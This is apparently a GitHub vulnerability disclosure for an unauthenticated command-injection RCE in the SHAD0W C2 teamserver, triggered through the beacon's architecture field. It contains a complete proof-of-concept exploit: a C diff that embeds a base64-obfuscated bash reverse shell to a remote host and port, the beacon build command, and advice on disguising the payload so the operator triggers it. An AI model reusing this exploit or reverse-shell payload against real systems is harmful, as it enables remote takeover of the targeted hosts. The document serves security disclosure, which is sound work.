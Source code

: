 # SHAD0W Unauthenticated RCE

SHAD0W is vulnerable to an unauthenticated RCE against the C2 Teamserver. A malicious beacon can specify an arbitrary architecture value when registering with the Teamserver. When the C2 operator interacts with the beacon in certain ways, the architecture value is injected into a system compilation command.  

![](poc.gif)

## Reproduction

The `register_beacon()` function in [lib/path_handler.py](https://github.com/bats3c/shad0w/blob/master/lib/path_handler.py#L86) accepts URL-encoded parameters from beacons when they register with the C2 Teamserver. Unlike the `stage_beacon()` function, these parameters are not validated. Arbitrary architecture and operating system values can be provided by a malicious beacon.

Several modules in SHAD0W also use the arbitrary beacon-provided values as parameters when compiling shellcode. For instance, the `migrate` module which implements process migration, [passes the architecture value](https://github.com/bats3c/shad0w/blob/d35b9dc74319800bbab1678aba69258532ec0200/lib/commands/migrate.py#L62) to `buildtools.make_in_clone()`. The value is [eventually interpolated](https://github.com/bats3c/shad0w/blob/master/lib/buildtools.py#L152) into an `os.system()` function call for the `make` command.   

The beacon-provided values are displayed to the C2 operator when the beacon first connects to the C2 server, so some level of obfuscation is required here to disguise the payload and spark the C2 operator's curiosity to interact with the beacon. 

The easiest way to demonstrate the exploit is with a patch to the in-built SHAD0W beacon. The payload below starts a bash reverse shell back to the targeted beacon server. In the animated POC above, some misleading strings have been added to disguise the injection.

```

diff --git a/beacon/injectable/beacon.c b/beacon/injectable/beacon.c
index c7752c6..4e6051f 100644
--- a/beacon/injectable/beacon.c
+++ b/beacon/injectable/beacon.c
@@ -47,14 +47,16 @@ void main()
         strcpy( CompInfo.OS, "NULL" );
     }
 
+    char payload[] = ";echo YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xOTIuMTY4LjE2Ny4xMjgvODg4OCAwPiYxICYK|base64 -d|bash;";
+
     // format the data correctly so it can be used when we call back to the c2
 
     #if !defined(IMPERSONATE_SESSION)
-        sprintf(UriBuffer, "username=%s&domain=%s&machine=%s&arch=%s&os=%s&secure=%s", lpcUserName, lpcDomainName, lpcComputerName, CompInfo.Arch, CompInfo.OS, CompInfo.Secure);
+        sprintf(UriBuffer, "username=%s&domain=%s&machine=%s&arch=%s&os=%s&secure=%s", lpcUserName, lpcDomainName, lpcComputerName, payload, CompInfo.OS, CompInfo.Secure);
     #endif
 
     #if defined(IMPERSONATE_SESSION)
-        sprintf(UriBuffer, "username=%s&domain=%s&machine=%s&arch=%s&os=%s&secure=%s&impersonate=%s", lpcUserName, lpcDomainName, lpcComputerName, CompInfo.Arch, CompInfo.OS, CompInfo.Secure, IMPERSONATE_SESSION);
+        sprintf(UriBuffer, "username=%s&domain=%s&machine=%s&arch=%s&os=%s&secure=%s&impersonate=%s", lpcUserName, lpcDomainName, lpcComputerName, payload, CompInfo.OS, CompInfo.Secure, IMPERSONATE_SESSION);
     #endif
 
     // register back with the c2
```

Compile the beacon:

`python3 shad0w.py beacon -p x64/windows/static -H 192.168.167.131 -f psh -o update.ps1`

Run the beacon on a Windows host and setup the reverse shell.

When the C2 operator runs a module such as `migrate` against the beacon, the command injection will trigger, "hacking back" the C2 framework.